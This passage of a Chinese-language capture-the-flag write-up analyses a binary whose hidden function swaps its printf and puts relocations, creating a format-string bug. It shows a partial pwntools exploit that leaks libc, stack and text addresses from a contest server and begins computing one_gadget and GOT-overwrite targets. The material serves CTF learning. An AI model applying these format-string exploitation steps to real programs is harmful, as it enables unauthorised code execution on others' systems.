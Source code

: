 * 但 IDA 裡面 0x12d9 是一片空白

  ![image-20210111120619653](https://raw.githubusercontent.com/LJP-TW/blog/master/images/post/2021-01-11-AIS3-EOF-Qual/image-20210111120619653.png)

* 沒有關係, 那我用 gdb 把在 0x12d9 的 function dump 下來分析

  * `dump memory dump.dmp 0x0000555555555000 0x0000555555557000` 
  * dump 整個 segment
  * IDA 打開 `dump.dmp`, Edit > Segments > Rebase program, 將 Segment 開頭設為 0x0000555555555000

* 這樣分析起來就舒服多了, 但其實還是要配動態分析才能更快

  ![image-20210111121221757](https://raw.githubusercontent.com/LJP-TW/blog/master/images/post/2021-01-11-AIS3-EOF-Qual/image-20210111121221757.png)

* 分析這個 function

* 一開始會讀出 flag, 計算其 md5, 符合特定值才做事

* 做的事情就是改 `printf` 和 `puts` Relocation entry, 讓 `printf` 最終會 link 到 `puts`, `puts` 最終會 link 到 `printf`

  * 原本的 ELF

    ![image-20210111122205427](https://raw.githubusercontent.com/LJP-TW/blog/master/images/post/2021-01-11-AIS3-EOF-Qual/image-20210111122205427.png)

  * 改過的 ELF

    ![image-20210111122228121](https://raw.githubusercontent.com/LJP-TW/blog/master/images/post/2021-01-11-AIS3-EOF-Qual/image-20210111122228121.png)

  * 最終在 IDA 上的樣子

    ![image-20210111122349637](https://raw.githubusercontent.com/LJP-TW/blog/master/images/post/2021-01-11-AIS3-EOF-Qual/image-20210111122349637.png)

  * 多了 FSB 啦!!

  * 追蹤這部分的 code 可以學到怎麼解析 relocation table, 至於詳細的過程另外發一篇筆記好了 (篇數小偷

* exploit 就是打 FSB

```python
#!/usr/bin/env python3
from pwn import *

# p = process('./illusion', env={"LD_PRELOAD" : "./libc.so.6"})
p = remote('eofqual.zoolab.org', 10104)

raw_input('>')
payload = b'|%p|%13$p|%15$p|'
p.sendline(payload)

p.recvuntil(b'|')
libc = int(p.recvuntil(b'|', drop=True), 16) - 0x1ec723
log.info('libc: ' + hex(libc))

stack = int(p.recvuntil(b'|', drop=True), 16)
log.info('stack: ' + hex(stack))

text = int(p.recvuntil(b'|', drop=True), 16) - 0x1211
log.info('text: ' + hex(text))

exit_got = text + 0x5018
one_gadget = libc + 0xe6e76
r10 = stack - 0x32f8

one_gadgets = []
idx = [0, 1, 2]
for i in range(3):
    one_gadgets.append((one_gadget >> (i * 16)) & 0xffff)

```